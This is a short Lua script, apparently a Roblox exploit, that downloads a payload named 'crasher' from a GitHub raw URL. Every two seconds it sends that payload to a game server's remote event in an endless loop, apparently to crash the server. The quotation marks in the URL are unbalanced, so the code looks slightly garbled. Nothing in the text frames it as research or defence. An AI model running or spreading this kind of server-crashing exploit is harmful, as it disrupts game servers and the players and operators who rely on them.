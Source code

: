 local crasher = game:HttpGet("https://raw.githubusercontent.com/zoiddddd/whitelist/main/Protected"(4).lua")

while task.wait(2.0) do
print("test")    
workspace.__THINGS.__REMOTES.MAIN:FireServer("b", crasher)
end

